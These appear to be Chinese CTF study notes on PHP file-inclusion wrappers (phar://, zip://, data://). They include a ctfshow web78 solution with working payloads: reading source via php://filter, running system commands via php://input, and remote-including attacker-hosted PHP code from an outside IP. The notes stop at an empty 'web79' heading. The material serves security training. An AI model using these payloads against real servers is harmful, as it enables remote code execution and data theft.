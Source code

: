 ## phar://、zip://、bzip2://、zlib://

用于读取压缩文件，zip:// 、 bzip2:// 、 zlib:// 均属于**压缩流**，可以访问压缩文件中的子文件，更重要的是**不需要指定后缀名**，可修改为任意后缀：jpg png gif xxx 等等

### 用法示例

phar://

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

## data://

数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

### 示例用法

```
1、data://text/plain,http://127.0.0.1/include.php?file=data://text/plain,<?php phpinfo();?>

2、data://text/plain;base64,http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

# ctfshow

## web78

题目

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

答案

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
?file=php://input post:<?php system('tac flag.php');?>
?file=http://43.142.255.132/1.txt        1.txt:<?php system('tac flag.php');?>  //远程包含
```

## web79
